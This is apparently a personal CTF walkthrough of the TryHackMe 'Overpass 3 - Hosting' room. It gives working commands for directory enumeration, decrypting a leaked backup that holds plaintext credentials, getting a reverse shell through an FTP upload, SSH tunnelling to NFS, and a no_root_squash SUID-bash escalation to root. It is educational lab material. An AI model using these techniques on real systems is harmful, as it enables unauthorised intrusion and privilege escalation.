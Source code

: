 ```yaml
---
title: Overpass 3 - Hosting
date: 2022-12-18 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [overpass, centOS, linux, privesc]
---
```


<https://tryhackme.com/room/overpass3hosting> You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...

# Notes


- `gobuster dir -u http://overpass3hosting.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php` we find a backups folder with a zip lets get that and check it. dont see any other files on the server.

inside of backups theres a priv key and a gpg file. 

- `gpg --import priv.key`

looks like the key is expired

we can slect the key and edit with gpg and refresh the expiry and open the xls file.

opening the xls gives us a few usernames and passwords

```
paradox	ShibesAreGreat123
0day	OllieIsTheBestDog
muirlandoracle	A11D0gsAreAw3s0me
```

we can use paradox's creds to login to the ftp, because their ftp server is their webserver dir we can use this to upload a remote shell.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass3hosting]
└─$ nc -nvlp 6669             
listening on [any] 6669 ...
connect to [10.2.3.64] from (UNKNOWN) [10.10.16.128] 41210
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:51:30 up  1:10,  0 users,  load average: 0.00, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (848): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami
whoami
apache
```

- we can run `find / -name *flag* 2>/dev/null` to find the web flag.

# privilege escalation

`/home/james *(rw,fsid=0,sync,no_root_squash,insecure)`

james has `no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications. Read the /etc/exports file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

we can also swap to user paradox with his pass `su`.

trying to use `https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe` escalation we seem to have an issue connecting with the target machine so in order to connect we will need to setup an ssh port forward.

1. generate a private/public key on the target - `ssh-keygen -f paradox`
2. copy contents of puclic key and edit authorized_keys file on our attacker machine `echo "paradox_key" >> /home/paradox/.ssh/authorized_keys`
3. now we can connect via ssh using the private key after we copy it over to our attacker. 

to check which ports the nfs is listening on we can run `rpcinfo -p` which tells us port `2049`. with this information we can do some SSH port forwarding.

- `ssh paradox@overpass3hosting.thm -i paradox -L 2049:localhost:2049`

create a directory for the share and mount `mkdir /tmp/pe && sudo mount -v -t nfs localhost:/ /tmp/pe`

we get the user flag within the mounted share. we can also `ls -las` and see everything inside james share. we can copy james` priv ssh key and login next stop root. since we can login to james now we can copy bash and simply obtain root.


1. target `cp /bin/bash .`
2. attacker shared `sudo su`, `chown root:root bash`, `chmod +s bash`
3. on the target `./bash -p`

from here we can `cat root.flag` in the root dir.


